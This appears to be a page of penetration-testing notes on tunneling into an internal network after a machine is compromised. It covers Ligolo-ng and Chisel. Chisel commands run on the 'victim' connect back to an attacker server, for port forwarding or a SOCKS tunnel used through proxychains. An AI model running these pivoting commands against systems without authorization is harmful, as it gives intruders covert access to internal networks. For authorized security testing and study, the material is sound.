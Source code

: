 ```yaml
---
label: Network Tunneling
subLabel: (Ligolo-ng, Chisel)
disabled: true
---
```


# Network Tunneling

It is often the case that after compromising one externally visible machine, we want to continue the attack on the internal network. Only the compromised machine has access to the internal network. So we need to somehow route outbound traffic from our system (e.g. Kali Linux) through the compromised machine. There are several ways and offensive tools to set up a TCP/UDP tunnel.

There are different methods of tunneling. The most popular are: TCP over TCP+TLS, TCP over HTTP, TCP over SSH. The idea is to pack standard TCP packets into some other protocol, usually a higher layer, and send them that way to the compromised machine. There is an tunnel client / agent running on a compromised machine so that it can unpack the tunneled packets to standard TCP and send them to the network interface. After this process, our TCP packets can find their way from the compromised machine to the internal network.

Example path:

```plaintext
(attacker)     TCP tunnel   (tunnel client)      TCP
  LINUX  -------------------> COMPROMISED ----------------> INTERNAL
 MACHINE       over HTTP        MACHINE                     NETWORK
```

## Ligolo-ng (TCP over TCP+TLS)

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) is a simple tool to establish tunnels using TUN interface on Linux. It's basically a custom virtual network interface that translates all packets and sends it to the remote agent. On the other side of the tunnel, the agent unpacks the packets. The tool uses TCP over TCP+TLS tunneling.

Since tunneling has been implemented at the network interface level, **the established tunnel is completely transparent from the attacker's point of view. It does not require any additional configuration of the offensive tooling used during the engagement**.

## Chisel (TCP over HTTP)

[Chisel](https://github.com/jpillora/chisel) is a tool to establish a TCP/UDP tunnel over HTTP. Allows you to do a simple port forwarding and establish a SOCKS tunnel.

### Simple port forwarding

Attacker:

```bash
# Run Chisel server listening on port
chisel server --reverse --port $srv_port
```

Victim:

```bash
# Bind a socket to attacker's port
chisel client $srv_ip:$srv_port R:$attacker_port:$remote_ip:$remote_ip
```

After that using `http://localhost:$attacker_port` an attacker (from its local machine) is accessing a socket defined on the client side of the tunnel.

### SOCKS tunnel

SOCKS tunnel mostly requires the use of `proxychains` tool. But at the same time it provides more flexibility because it allows access to any host and port without any additional configuration on the client side. Something for something...

Attacker:

```bash
# Run Chisel server listening on port
chisel server --reverse --port $srv_port
```

Victim:

```bash
chisel client $srv_ip:$srv_port R:$attacker_port:socks
```

In order to use the established tunnel packets must be translated to SOCKS. All tools that do not natively support the SOCKS protocol must be passed through a `proxychains` tool. The port used for the SOCKS tunnel must be set in the config file: `/etc/proxychains4.conf`. This is the `$attacker_port` from the snippet above.

```bash
# Example usage: all ffuf requests are transmitted via SOCKS tunnel
proxychains ffuf [...]
```

## C2 Frameworks

